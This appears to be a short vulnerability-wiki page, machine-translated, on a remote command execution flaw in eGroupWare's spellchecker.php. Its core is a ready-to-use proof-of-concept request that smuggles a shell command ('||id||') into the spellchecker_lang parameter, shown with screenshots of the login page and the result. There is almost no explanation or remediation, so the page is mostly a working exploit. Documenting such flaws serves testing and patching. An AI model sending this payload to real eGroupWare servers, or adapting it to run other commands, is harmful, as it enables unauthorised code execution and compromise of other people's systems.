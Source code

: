 # eGroupWare spellchecker.php remote command execution vulnerability

## Vulnerability Description

*eGroupWare* is a multi-user, WEB-based workpiece set developed based on custom sets on PHP-based APIs, where command execution vulnerabilities exist in the spellchecker.php file

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">eGroupWare</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629087827840-2daaeca6-8c17-48dd-bbb4-5a7f4746b181.png)

Verify POC

```bash
/egroupware/phpgwapi/js/fckeditor/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php?spellchecker_lang=egroupware_spellchecker_cmd_exec.nasl%7C%7Cid%7C%7C
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629088046554-f44013d6-babd-4708-bd9b-ce93b4fbd12a.png)
